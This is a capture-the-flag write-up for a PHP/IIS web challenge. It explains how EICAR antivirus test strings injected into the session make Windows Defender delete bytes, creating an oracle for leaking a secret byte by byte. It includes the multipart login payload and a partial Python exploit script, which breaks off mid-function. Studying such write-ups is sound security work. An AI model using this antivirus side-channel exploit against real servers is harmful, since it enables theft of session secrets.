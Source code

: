 As we see in the code above, `$_SESSION['nickname']` is not properly sanitized like `$_SESSION['realname']`, making possible for us to execute `gen_secret('')`, which returns `md5(SALT . PEPPER);`

But this didn't really help us anything much to find the actual vulnerability.

so we looked a bit around and found out that the server is IIS 10 by looking at the `Server:` header from the HTTP response.

```html
...
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.9

```

Then We recalled the @icchy's writeup for the WCTF challenge Gyotaku The Flag (https://westerns.tokyo/wctf2019-gtf/wctf2019-gtf-slides.pdf)

So we thought of the strategy and was as followes:

1. PHPSESSID is stored in the filesystem.
2. Considering that this is a Windows + IIS challenge, we can make Windows Defender angry by writing dangerous contents into the session, and destroy PHPSESSID data.
3. After the dangerous content is removed, we can manipulate the session and leak secret key byte by byte.

To prove that this works, we installed a fresh version of windows and installed IIS with PHP and sourcecode on it. then we logged in with the following parameters on login page via POST.

```html
----------1384459925
Content-Disposition: form-data; name="realname"

--!><html><head><script>var b="$EICAR-STANDARD-ANTIVIRUS-TEST-FILE";var a="X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H"+"*";eval(a);</script></head><body>
----------1384459925
Content-Disposition: form-data; name="nickname"

11
----------1384459925--

```

After that we noticed the `Threats found` alert, then we found out that some bytes are removed from the PHPSESSID. With that in mind, we made a exploit to leak the flag.

```python
import requests
 
URL = "http://phpnote.chal.ctf.westerns.tokyo" # changeme
 
def trigger(c, idx):
   import string
   p = '''<script>f=function(n){eval('X5O!P%@AP[4\\\\PZX54(P^)7CC)7}$$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$$H+H'+{${c}:'*'}[Math.min(${c},n)])};f(document.body.innerHTML[${idx}].charCodeAt(0));</script><body>'''
   p = string.Template(p).substitute({'idx': idx, 'c': c})
   return p
 
def leak(idx):
   l, h = 0, 0x100
   while h - l > 1:
       m = (h + l) // 2
       gid = trigger(m, idx)
       # r = requests.post(URL + '/?action=login', data={'realname': gid, 'nickname': '1'})
       # print r.content
       # exit()
       s = requests.session()
       s.post(URL + '/?action=login', data={'realname': gid, 'nickname': ''})
```